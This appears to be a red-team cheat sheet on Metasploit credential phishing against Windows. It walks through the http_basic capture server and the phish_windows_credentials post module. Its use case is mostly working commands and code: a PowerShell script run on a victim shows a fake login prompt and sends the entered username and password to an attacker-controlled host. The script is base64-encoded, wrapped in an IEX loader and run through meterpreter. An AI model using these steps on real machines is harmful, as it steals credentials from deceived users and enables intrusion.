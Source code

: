 # Metasploit

Search Tag(s): #privilege-escalation #windows

## 01 - Usage

### 1.1 - Auxiliary Module

- MSF HTTP Client Basic Authentication Credential Collector Auxiliary Module

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(server/capture/http_basic) > options

Module options (auxiliary/server/capture/http_basic):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   REALM        Secure Site      yes       The authentication realm you'd like to present.
   RedirectURL                   no        The page to redirect users to after they enter basic auth creds
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      80               yes       The local port to listen on.
   SSL          false            no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name     Description
   ----     -----------
   Capture  Run capture web server


msf auxiliary(server/capture/http_basic) > set uripath [/uri_path]

msf auxiliary(server/capture/http_basic) > set srvhost <IP>

msf auxiliary(server/capture/http_basic) > set srvport <PORT>

msf auxiliary(server/capture/http_basic) > set ssl <true | false>

msf auxiliary(server/capture/http_basic) > set sslcert /path/to/cert.pem

msf auxiliary(server/capture/http_basic) > set realm <realm_name>

msf auxiliary(server/capture/http_basic) > set redirectURL <url>

msf auxiliary(server/capture/http_basic) > run
```

### 1.2 - Post

```
msf > use post/windows/gather/phish_windows_credentials

msf post(windows/gather/phish_windows_credentials) > options

Module options (post/windows/gather/phish_windows_credentials):

   Name         Current Setting                                                                Required  Description
   ----         ---------------                                                                --------  -----------
   DESCRIPTION  {PROCESS_NAME} needs your permissions to start. Please enter user credentials  yes       Message shown in the loginprompt
   PROCESS                                                                                     no        Prompt if a specific process is started by the target. (e.g. calc.exe or specify * for all processes)
   SESSION                                                                                     yes       The session to run this module on.

msf post(windows/gather/phish_windows_credentials) > set description <description>

msf post(windows/gather/phish_windows_credentials) > set process <program_name.exe>

msf post(windows/gather/phish_windows_credentials) > set session <session_ID>

msf post(windows/gather/phish_windows_credentials) > run
```

## 02 - Use Case

### 2.1 - Capture credentials with the webserver

- Run the auxiliary module to setup http webserver

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(server/capture/http_basic) > set uripath /

msf auxiliary(server/capture/http_basic) > set srvhost 0.0.0.0

msf auxiliary(server/capture/http_basic) > set srvport 443

msf auxiliary(server/capture/http_basic) > set ssl true

msf auxiliary(server/capture/http_basic) > run
```

- Using the powershell script to execute it the victim

```powershell
$ cat phish.txt
$cred = $host.ui.promptforcredential('Failed Authentication','',[System.Environment]::UserDomainName + "\" + [System.Environment]::UserName,[System.Environment]::UserDomainName);[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
$wc = New-Object Net.WebClient;
$wc.Headers.Add("User-Agent","<user_agent>");
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$wc.credentials = new-object system.net.networkcredential($cred.username, $cred.getnetworkcredential().password, '');
$result = $wc.downloadstring('https://<attacker_IP>/');
```

Encode it into base64

```
$ iconv -t UTF-16LE phish.txt | base64 -w 0

$ iconv -t UTF-16LE phish.txt | basenc -w 0 --base64
```

- Then copy the encoded text file in the powershell script.

```powershell
$ cat encoded.ps1
IEX ([System.Text.Encoding]::Unicode.GetString(([convert]::FromBase64String('<base64_encoded>'))))
```

- Then execute the powershell script with a post module.

```
meterpreter > run post/windows/manage/exec_powershell script=encoded.ps1
```

### 2.2 - Post Module

```
msf > use post/windows/gather/phish_windows_credentials

msf post(windows/gather/phish_windows_credentials) > set process *

msf post(windows/gather/phish_windows_credentials) > set session <session_ID>

msf post(windows/gather/phish_windows_credentials) > run
```

---
## References

- [[User Agents]]

- [Malicious.link](https://room362.com/posts/2015/powershell-popups-and-capture/)

- [Rapid7: Metasploit Framework - Phishing Windows Credentials](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/phish_windows_credentials.md)

- [Enigma0x3: Phishing for Credentials If you want it, just ask!](https://enigma0x3.net/2015/01/21/phishing-for-credentials-if-you-want-it-just-ask/)

- [Assume Breach: Internal Windows Phishing With Pickl3 And InsideMan](https://assume-breach.medium.com/home-grown-red-team-internal-windows-phishing-with-pickl3-and-insideman-2cd2e92f7d3e)

- [Invoke-LoginPrompt](https://github.com/rapid7/metasploit-framework/blob/master/data/post/powershell/Invoke-LoginPrompt.ps1)